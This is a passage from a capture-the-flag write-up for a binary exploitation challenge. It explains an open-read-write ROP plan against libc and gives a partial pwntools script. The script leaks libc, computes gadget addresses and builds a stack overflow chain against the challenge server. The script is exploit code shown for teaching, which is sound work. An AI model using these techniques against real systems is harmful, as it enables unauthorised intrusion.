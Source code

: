 the plan was to `open("./flag.txt")` and then read in that file somewhere into the binary. since we only have a libc leak, i decided to target the `libc data section`. the corresponding page was marked `writeable` (thanks to `Partial RELRO` on the libc binary) so i decided to proceed with this. then we just need to perform a write to `stdout` from the target location. 

i also needed to write in `flag.txt` somewhere in the binary so that i could use that location and pass that in as a parameter in `open()`. i decided to still use the `libc data section` and exploit `gets()` to write data directly from `stdin` directly into the target location. 

## Full Exploit
here's the full exploit that i used. all the ROP gadgets are picked from the provided libc. 

```py
from pwn import *

exe = './chall_patched'
libc_path = 'libc.so.6'
ld_path = 'ld-linux-x86-64.so.2'
elf = context.binary = ELF(exe, checksec=True)
libc = ELF(libc_path, checksec=False)
ld = ELF(ld_path, checksec=False)

host = 'challs.pwnoh.io'
port = 13371

context.terminal = ['tmux', 'splitw', '-h']

## r = process(exe, level='DEBUG')

r = remote(host, port)

gs = '''
break *vuln
continue
'''
## r = gdb.debug(exe, gdbscript=gs)

r.recvuntil(b"Try it yourself: it's at")
system_leak = int(r.recvline().strip().decode(), 16)

libc.address = system_leak - libc.sym['system']

print(hex(libc.address))

bin_sh = next(libc.search(b'/bin/sh'))
pop_rax_ret = libc.address + 0x045eb0
pop_rdi_ret = libc.address + 0x02a3e5
pop_rsi_ret = libc.address + 0x02be51
pop_rdx_rbx_ret = libc.address + 0x0904a9
syscall = libc.address + 0x091316
ret = libc.address + 0x1bc065

target_address = 0x7ffff7fadf00 - 0x7ffff7d92000 + libc.address

## exploit payload
payload = b'A' * 0x28

## write 'flag.txt' in libc data section
payload += p64(pop_rdi_ret)
payload += p64(target_address)
payload += p64(libc.sym['gets'])

## open 'flag.txt'
payload += p64(pop_rdi_ret)
```